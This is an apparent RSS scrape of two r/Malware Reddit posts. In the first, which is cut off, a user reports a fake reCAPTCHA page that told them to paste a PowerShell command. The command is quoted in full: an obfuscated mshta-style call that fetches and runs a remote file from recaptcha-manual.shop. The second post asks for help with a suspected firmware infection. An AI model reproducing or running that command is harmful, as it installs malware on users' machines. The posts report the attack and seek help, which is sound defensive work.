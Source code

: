 # Source:Malware Analysis & Reports, URL:https://www.reddit.com/r/Malware/.rss, language:en

## I think i got baited to install a malware
 - [https://www.reddit.com/r/Malware/comments/1iobpnd/i_think_i_got_baited_to_install_a_malware](https://www.reddit.com/r/Malware/comments/1iobpnd/i_think_i_got_baited_to_install_a_malware)
 - RSS feed: $source
 - date published: 2025-02-13T05:07:50+00:00

<!-- SC_OFF --><div class="md"><p>So i was studying some population forecasting for which i visited this website called <a href="https://www.civilmile.com/incremental-increase-method/">https://www.civilmile.com/incremental-increase-method/</a></p> <p>and it asked me to verify if i am not a robot and all reCAPTCHA which out error. So i followed the instruction given in this website only to find that it was a virus most probably.</p> <p>This is what it asked me to paste ( powershell -w 1 &amp; \W*\\\\\\\\\\\\\\\\\\S*2\\\\\\\\\\\\\\\\\m*ht*e <a href="https://recaptcha-manual.shop/kangarooing.m4a">https://recaptcha-manual.shop/kangarooing.m4a</a> # ✅ &#39;&#39;I am not a robot: Cloudflare Verification ID: 439121&#39;&#39;)</p> <p>Thankfully windows defender alerted me and i removed this shit. Does anyone have a idea what this actually is? </p> <p><a href="https://preview.redd.it/sw7f0sdu9uie1.png?width=724&amp;format=png&amp;auto=webp&amp;s=dc96045df312def20a9655b8bb963402f136f03e">https

## hardware level infection - looking to consult with someone
 - [https://www.reddit.com/r/Malware/comments/1io685p/hardware_level_infection_looking_to_consult_with](https://www.reddit.com/r/Malware/comments/1io685p/hardware_level_infection_looking_to_consult_with)
 - RSS feed: $source
 - date published: 2025-02-13T00:21:24+00:00

<!-- SC_OFF --><div class="md"><p>I’m looking for an experienced cybersecurity consultant to help assess a potential firmware-level malware infection on one of our home computers. One of our machines was infected with a virus that had admin rights and likely modified UEFI/BIOS or hard drive firmware. </p> <p>Willing to pay some $ for consultation as well.</p> </div><!-- SC_ON --> &#32; submitted by &#32; <a href="https://www.reddit.com/user/Discussion_Primary"> /u/Discussion_Primary </a> <br/> <span><a href="https://www.reddit.com/r/Malware/comments/1io685p/hardware_level_infection_looking_to_consult_with/">[link]</a></span> &#32; <span><a href="https://www.reddit.com/r/Malware/comments/1io685p/hardware_level_infection_looking_to_consult_with/">[comments]</a></span>

